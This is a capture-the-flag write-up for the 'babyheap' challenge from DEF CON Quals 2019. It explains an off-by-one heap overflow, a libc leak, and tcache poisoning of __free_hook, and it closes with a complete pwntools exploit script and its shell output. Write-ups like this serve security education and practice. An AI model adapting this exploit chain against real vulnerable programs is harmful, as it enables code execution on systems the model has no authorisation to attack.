

# babyheap

### Summary



This is a nice, classic menu-style heap exploitation challenge to learn bypassing protections like NX, Canary, Full RELRO, PIE, and ASLR in x86_64 binaries.

Given:
* `babyheap`
* `libc.so` (2.29!)

```
-----Yet Another Babyheap!-----
[M]alloc
[F]ree
[S]how
[E]xit
------------------------
Command:
> 
```

```
>>> ELF('babyheap')
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```
* No `Edit` option
* Chunk size `0x100` or `0x180` based on user-chosen size
* Fill up tcache bin
    * Leak libc from unsorted bin
* Single byte overflow
    * -> leads to larger overflow
* tcache poisoning possible to arbitrary malloc + overwrite
    * Overwrite `__free_hook` with `oneGadget` 

**OOO{4_b4byh34p_h45_nOOO_n4m3}**

### Walkthrough
We are given a stripped ELF x86-64 `babyheap` and a `libc.so` (`Ubuntu GLIBC 2.29-0ubuntu2`
```
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=afa4d4d076786b1a690f1a49923d1e054027e8e7, for GNU/Linux 3.2.0, stripped
```

To be able to use the given `libc.so` properly, I ran it in an Ubuntu 19.04 VM.
```
$ ./babyheap
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> M
Size:
> 100
Content:
> hello there
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> S
(Starting from 0) Index:
> 0
hello there
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
> F
(Starting from 0) Index:
> 
0
-----Yet Another Babyheap!-----
[M]alloc 
[F]ree 
[S]how 
[E]xit 
------------------------
Command:
>
```
As you see, when we malloc we can choose which size we want. From doing some minor reversing, we can show this in pseudo-code as:
```
chosenSize = strtol(input)
if chosenSize > 0x178:
    abort()
if chosenSize > 0xf8:
    chunk = malloc(0x178)
else:
    chunk = malloc(0xf8)
```
Of course, chunk headers add `0x10` bytes, so all chunks will be either size `0x100` or `0x180`.

### One byte overflow -> many bytes overflow

Then, we're able to input content for our chunk (again, pseudo-code):
```
i = 0
input = read_one_byte()
while i <= chosenSize and (input not in ["\0", "\n"]):
    chunk[i] = input
    input = read_one_byte()
    i++
```
As you can see, we have an off-by-one error here, allowing us to overflow a single byte into the next chunk! This is great, because this means we can overwrite a chunk's `size` from `0x101` to `0x181` and move on from there.

To demonstrate, let's use this:

```python
def add(size, data):
    p.sendlineafter("> ", "M")
    p.sendlineafter("> ", str(size))
    p.sendlineafter("> ", data)

def free(index):
    p.sendlineafter("> ", "F")
    p.sendlineafter("> ", str(index))

def show(index):
    p.sendlineafter("> ", "S")
    p.sendlineafter("> ", str(index))
```

First off, we malloc three chunks:
```python
add(0xf8, "AAAA") #A
add(0xf8, "BBBB") #B
add(0xf8, "CCCC") #C
```

```
0x555555559250:	0x0000000000000000	0x0000000000000101 [A]
0x555555559260:	0x0000000041414141	0x0000000000000000
0x555555559270:	0x0000000000000000	0x0000000000000000
0x555555559280:	0x0000000000000000	0x0000000000000000
0x555555559290:	0x0000000000000000	0x0000000000000000
0x5555555592a0:	0x0000000000000000	0x0000000000000000
0x5555555592b0:	0x0000000000000000	0x0000000000000000
0x5555555592c0:	0x0000000000000000	0x0000000000000000
0x5555555592d0:	0x0000000000000000	0x0000000000000000
0x5555555592e0:	0x0000000000000000	0x0000000000000000
0x5555555592f0:	0x0000000000000000	0x0000000000000000
0x555555559300:	0x0000000000000000	0x0000000000000000
0x555555559310:	0x0000000000000000	0x0000000000000000
0x555555559320:	0x0000000000000000	0x0000000000000000
0x555555559330:	0x0000000000000000	0x0000000000000000
0x555555559340:	0x0000000000000000	0x0000000000000000
0x555555559350:	0x0000000000000000	0x0000000000000101 [B]
0x555555559360:	0x0000000042424242	0x0000000000000000
0x555555559370:	0x0000000000000000	0x0000000000000000
0x555555559380:	0x0000000000000000	0x0000000000000000
0x555555559390:	0x0000000000000000	0x0000000000000000
0x5555555593a0:	0x0000000000000000	0x0000000000000000
0x5555555593b0:	0x0000000000000000	0x0000000000000000
0x5555555593c0:	0x0000000000000000	0x0000000000000000
0x5555555593d0:	0x0000000000000000	0x0000000000000000
0x5555555593e0:	0x0000000000000000	0x0000000000000000
0x5555555593f0:	0x0000000000000000	0x0000000000000000
0x555555559400:	0x0000000000000000	0x0000000000000000
0x555555559410:	0x0000000000000000	0x0000000000000000
0x555555559420:	0x0000000000000000	0x0000000000000000
0x555555559430:	0x0000000000000000	0x0000000000000000
0x555555559440:	0x0000000000000000	0x0000000000000000
0x555555559450:	0x0000000000000000	0x0000000000000101 [C]
0x555555559460:	0x0000000043434343	0x0000000000000000
```

By now overwriting `size` of `B` from `0x101` to `0x181` and then freeing it, we will place it in the freelist for chunks of size `0x180`. As it is in the freelist, it will be used to serve the next `malloc(0x178)`. Now we are able to overflow many bytes into C!
```python
free(0)                         #Free A
add(0xf8, "A"*0xf8 + "\x81")    #Reallocate and overwrite size of [B]
free(1)                         #Place B in size 0x180 freelist
add(0x178, "B"*0x120)           #Reallocate it and overflow into C
```

```
0x555555559250:	0x0000000000000000	0x0000000000000101 [A]
0x555555559260:	0x4141414141414141	0x4141414141414141
0x555555559270:	0x4141414141414141	0x4141414141414141
0x555555559280:	0x4141414141414141	0x4141414141414141
0x555555559290:	0x4141414141414141	0x4141414141414141
0x5555555592a0:	0x4141414141414141	0x4141414141414141
0x5555555592b0:	0x4141414141414141	0x4141414141414141
0x5555555592c0:	0x4141414141414141	0x4141414141414141
0x5555555592d0:	0x4141414141414141	0x4141414141414141
0x5555555592e0:	0x4141414141414141	0x4141414141414141
0x5555555592f0:	0x4141414141414141	0x4141414141414141
0x555555559300:	0x4141414141414141	0x4141414141414141
0x555555559310:	0x4141414141414141	0x4141414141414141
0x555555559320:	0x4141414141414141	0x4141414141414141
0x555555559330:	0x4141414141414141	0x4141414141414141
0x555555559340:	0x4141414141414141	0x4141414141414141
0x555555559350:	0x4141414141414141	0x0000000000000181 [B]
0x555555559360:	0x4242424242424242	0x4242424242424242
0x555555559370:	0x4242424242424242	0x4242424242424242
0x555555559380:	0x4242424242424242	0x4242424242424242
0x555555559390:	0x4242424242424242	0x4242424242424242
0x5555555593a0:	0x4242424242424242	0x4242424242424242
0x5555555593b0:	0x4242424242424242	0x4242424242424242
0x5555555593c0:	0x4242424242424242	0x4242424242424242
0x5555555593d0:	0x4242424242424242	0x4242424242424242
0x5555555593e0:	0x4242424242424242	0x4242424242424242
0x5555555593f0:	0x4242424242424242	0x4242424242424242
0x555555559400:	0x4242424242424242	0x4242424242424242
0x555555559410:	0x4242424242424242	0x4242424242424242
0x555555559420:	0x4242424242424242	0x4242424242424242
0x555555559430:	0x4242424242424242	0x4242424242424242
0x555555559440:	0x4242424242424242	0x4242424242424242
0x555555559450:	0x4242424242424242	0x4242424242424242 [C] (rekt!)
0x555555559460:	0x4242424242424242	0x4242424242424242
0x555555559470:	0x4242424242424242	0x4242424242424242
```

### Arbitrary malloc
Now assume that C was a free chunk. We could overwrite its `fd` pointer with an address we would like, malloc twice and get it and write to it! To demonstrate briefly:

```python
                # Freelist size 0x100:
                 # 0x0 (empty)
free(C)          # C -> 0x0

# Overwrite C's fd pointer with 0xf00dbabe 
# because we would like a pointer to that address.
                 # C -> 0xf00dbabe -> ???
C = malloc(0xf8) # 0xf00dbabe -> ???

foodbabe=malloc(0xf8)
```
Now we are also able to write to that address.

Because `Full RELRO` is enabled, we are not able to overwrite anything in the `GOT`. However, we could overwrite `__free_hook` instead! 

*All we need now is a `libc` leak*

### Leaking libc
*After solving the challenge, I realized leaking `libc` is super easy! Originally, I freed a chunk with a fake size of larger than 0x408 in order to place it in the unsorted bin, doing so additionally required bypassing 2 security checks... much to learn:)!*  

A tcache bin has a max capacity of 7 chunks. So if we fill that one up, the eigth freed chunk will be placed inside the unsorted bin. This will cause a `libc` address to be written to its `fd` ptr. If we `malloc` it again and do not enter any string contents, we will be able to read the `libc` address.

```python
# Fill up tcache bins
for i in range(9): #8+1, in order to prevent top chunk consolidation
    add(0x178, "")
for i in range(8):
    free(i)

# Leak libc
add(0xf8, "") # Request is served by unsorted bin
show(0)
>>> \x10\x1e\x8e\x1a\x94\x7f <<<
```

### Putting it all together

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *
import sys

def add(size, data):
    p.sendlineafter("> ", "M")
    p.sendlineafter("> ", str(size))
    p.sendlineafter("> ", data)

def free(index):
    p.sendlineafter("> ", "F")
    p.sendlineafter("> ", str(index))

def show(index):
    p.sendlineafter("> ", "S")
    p.sendlineafter("> ", str(index))

with context.quiet:
    p = remote('babyheap.quals2019.oooverflow.io', 5000)
    #p = process('./babyheap', env = { 'LD_PRELOAD' : './libc.so' })

    libc=ELF('./libc.so')

    # Fill up tcache bins
    for i in range(9): #8+1, in order to prevent top chunk consolidation
        add(0x178, "")
    for i in range(8):
        free(i)

    # Leak libc
    add(0xf8, "")  #[0] Request is served by unsorted bin
    show(0)
    libc_leak = u64(p.recvline()[:-1].ljust(8, "\0"))
    libc_system = libc_leak - 0x191e40
    libc.address= libc_system-libc.symbols['system']
    oneGadget=libc.address+0xe2383
    print "Libc base: %s" % hex(libc.address)
    print "Libc __free_hook: %s" % hex(libc.symbols['__free_hook'])
    print "oneGadget: %s" % hex(oneGadget)

    # Clean up mess
    add(0xf8, "")  #[1] Clear out the unsortedbin
    add(0x178, "") #[2] Make room in tcachebin
    add(0x178, "") #[3] Make room in tcachebin

    # Tcache poisoning
    add(0xf8, "A") #[4]
    add(0xf8, "B") #[5]
    add(0xf8, "C") #[6]
    free(6)
    free(4)
    add(0xf8, "A"*0xf8 + "\x81") #[4] Overwrite [5] size
    free(5)
                                 #[5] Overwrite [6] fd pointer
    add(0x178, "B"*0x100 + p64(libc.symbols['__free_hook'])[0:6]) 

    # Overwrite
    add(0xf8, "") # Junk malloc
    add(0xf8, p64(oneGadget)[0:6]) # Write oneGadget to __free_hook

    # Pop shell by freeing, effectively calling oneGadget
    free(0)
    p.interactive()
```

```
$ ./exploit.py
Libc base: 0x7f4af3f3c000
Libc __free_hook: 0x7f4af41235a8
oneGadget: 0x7f4af401e383

$ cat flag
OOO{4_b4byh34p_h45_nOOO_n4m3}
```
